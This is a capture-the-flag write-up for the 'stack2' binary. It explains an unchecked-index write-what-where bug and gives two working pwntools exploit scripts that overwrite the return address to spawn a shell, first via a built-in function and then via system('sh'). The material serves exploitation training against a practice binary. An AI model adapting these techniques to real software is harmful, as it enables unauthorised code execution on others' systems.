 # stack2

Link : [stack2](https://adworld.xctf.org.cn/challenges/list)

Binary : [stack2](https://raw.githubusercontent.com/w31rdr4v3n/Binary-Exploitation/main/Write-what-where/data/3fb1a42837be485aae7d85d11fbc457b)


Here are the binary protections:

![checksec](data/3fb1a42837be485aae7d85d11fbc457b_checksec.png)

There is a hackhere function in the binary, this function allows you to execute a /bin/bash shell.

![hackhere f](data/3fb1a42837be485aae7d85d11fbc457b_hackhere.png)

Let's go to the main function

The program takes numbers as input.

It can display numbers, add other numbers, change previously added numbers, calculate the average of numbers and exit.

![run binary](data/3fb1a42837be485aae7d85d11fbc457b_main_run.png)

The vulnerability lies at the level of number change, there is no control.

![ghidra vuln](data/3fb1a42837be485aae7d85d11fbc457b_vuln.png)

If you enter any number to change, it will change that number in memory: which is dangerous.

If you enter -100, it will change in memory the value located at offset -100 in our table.

This is actually a `Write-what-where` vulnerability.

```js
CWE-123: Write-what-where Condition

Any condition where the attacker has the ability to write an arbitrary value to an arbitrary location, often as the result of a buffer overflow. 

https://cwe.mitre.org/data/definitions/123.html
```

Here as we can write anywhere, then we can overwrite the EIP directly without worrying about the Canary.

There, we need two things:

1 - The address of the hackhere function.

2 - The ESP offset from the buffer.

Here is the address of the hackhere function in gdb:

![address hackhere](data/3fb1a42837be485aae7d85d11fbc457b_address_hackhere.png)

To obtain the ESP offset from the buffer, we can subtract the RSP address from the buffer address.

For the buffer, this is the address of the local_78 array.

Let's put a breakpoint at the LEA instruction to get its address.

![LEA](data/3fb1a42837be485aae7d85d11fbc457b_LEA.png)

![LEA](data/3fb1a42837be485aae7d85d11fbc457b_LEA_BUFFER.png)

We therefore have the address of the buffer, this remains the address of the ESP.

![ESP](data/3fb1a42837be485aae7d85d11fbc457b_ESP.png)

```py
offset = 0xffffd03c - 0xffffcfb8 # edx  = 0xffffcfb8  esp = 0xffffd03c
```

we can therefore overwrite the EIP by the address of the hackhere function.

Exploit 1:

```py
from pwn import *

sh = process("./3fb1a42837be485aae7d85d11fbc457b")

sh.sendlineafter(b"you have:",b"1")
sh.sendlineafter(b"me your numbers",b"1")

offset = 0xffffd03c - 0xffffcfb8 # edx  = 0xffffcfb8  esp = 0xffffd03c

for address in [0x9b, 0x85, 0x04, 0x08]:
	sh.sendlineafter(b"5. exit",b"3")
	sh.sendlineafter(b"which number to change:",str(offset).encode())
	sh.sendlineafter(b"new number:",str(address).encode())
	offset += 1
	

sh.sendlineafter(b"5. exit",b"5")
sh.interactive()
```

![Exploit](data/3fb1a42837be485aae7d85d11fbc457b_sh.png)

Exploit 2:

Instead of directly executing the hackhere function, we can execute the system function and pass it the string `sh` as an argument.

The system address.

![System](data/3fb1a42837be485aae7d85d11fbc457b_system.png)

The address of the string `sh`

![Sh](data/3fb1a42837be485aae7d85d11fbc457b_ssh.png)

```py
from pwn import *

sh = process("./3fb1a42837be485aae7d85d11fbc457b")

sh.sendlineafter(b"you have:",b"1")
sh.sendlineafter(b"me your numbers",b"1")

offset = 0xffffd03c - 0xffffcfb8 # edx  = 0xffffcfb8  esp = 0xffffd03c

for address in [0x50, 0x84, 0x04, 0x08]:
	sh.sendlineafter(b"5. exit",b"3")
	sh.sendlineafter(b"which number to change:",str(offset).encode())
	sh.sendlineafter(b"new number:",str(address).encode())
	offset += 1
	
offset +=4
for address in [0x87, 0x89, 0x04, 0x08]:
	sh.sendlineafter(b"5. exit",b"3")
	sh.sendlineafter(b"which number to change:",str(offset).encode())
	sh.sendlineafter(b"new number:",str(address).encode())
	offset += 1 
	
sh.sendlineafter(b"5. exit",b"5")
sh.interactive()
```

